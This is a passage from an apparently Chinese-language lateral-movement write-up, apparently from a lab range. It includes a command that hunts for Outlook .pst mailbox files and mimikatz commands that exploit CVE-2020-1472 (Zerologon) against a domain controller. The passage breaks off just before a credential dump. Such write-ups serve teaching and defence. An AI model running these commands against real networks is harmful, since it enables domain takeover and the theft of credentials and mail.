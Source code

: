 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CRIq1h255tTBqjb2b9FVibntzSwoW2td3hD8AA1EqlYW2EqkafHicKSVQ/640?wx_fmt=png)

得想办法拿到一台域机器！

对他们进行扫描端口发现他们都开放了 web 服务  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CDrZTjd90JgPXludoKFSShPZRsutsv1HN5NFQod5B1roZGkPauy3gDw/640?wx_fmt=png)  
其中 10.10.10.209 还是一个 Outlook Web App（微软的邮件组件）Exchange  ：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CZKewX6FIm3nSiaFnMMM4amEhmRfEBTGsCCzJBianaQtMJGbI67iaCNGMg/640?wx_fmt=png)

但是我们没有账号，这个时候我在 Redis 上找到了 pts 文件：  

```
C:\Users>for /r c:\ %i in (*.pst) do @echo %i
for /r c:\ %i in (*.pst) do @echo %i
c:\Documents and Settings\Administrator\Documents\Outlook \moonsec@cncat.cc.pst
c:\Documents and Settings\Administrator\Documents\Outlook \test@cncat.cc - test.pst
c:\Documents and Settings\Administrator\My Documents\Outlook \moonsec@cncat.cc.pst
c:\Documents and Settings\Administrator\My Documents\Outlook \test@cncat.cc - test.pst
c:\Users\Administrator\Documents\Outlook \moonsec@cncat.cc.pst
c:\Users\Administrator\Documents\Outlook \test@cncat.cc - test.pst
c:\Users\Administrator\My Documents\Outlook \moonsec@cncat.cc.pst
c:\Users\Administrator\My Documents\Outlook \test@cncat.cc - test.pst
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CMnALnULq8zAOBn1WzwtCkHVTGiaic87djFbqzBI7psRhNqV7mMNjGQOg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CJicpoaE45iaNlq125ou4NNMALbIhrsguwcl4Bcja9bwxiacW9KmbDiaUOA/640?wx_fmt=png)

知道了两个用户邮箱：moonsec@cncat.cc、test@cncat.cc

然后把文件都下载到本地，进行后续利用相关发现都失败了，吗的这个邮箱有些漏洞没复现过，卡了好久，有时间还是得把这些漏洞一一复现一遍！

**内网横向移动 - CVE-2020-1472 拿到域控**

之后发现他域控存在 CVE-2020-1472 域内提权漏洞：（需要 20200918 之后的 mimikatz 才可以使用），关于这个漏洞可以看我公众号之前写的文章：[NetLogon 域内提权漏洞（CVE-2020-1472）复现过程](http://mp.weixin.qq.com/s?__biz=MzkxNDEwMDA4Mw==&mid=2247485457&idx=1&sn=39677e8f0027fd81cd7359fb16bb0045&chksm=c172d20df6055b1b52a8934aa7463a1ced98b579f3081ba0355bed7e382797a348c2ef852ab5&scene=21#wechat_redirect)

```
privilege::debug
lsadump::zerologon /target:10.10.10.201 /account:12SERVER-DC$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CibQpxUK6UeicnztIzSIPAMCibu5ZNGuiaUWSwFu0BqeUKayFQbJesqrKCA/640?wx_fmt=png)

```
lsadump::zerologon /target:10.10.10.201 /account:12server-dc$ /exploit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CCQ7LFiacpbicRWwXgVMK0CbOsIwvzDLh8auzdavbsEBcr65ny0J7jLeg/640?wx_fmt=png)

导出所有域内用户凭证：
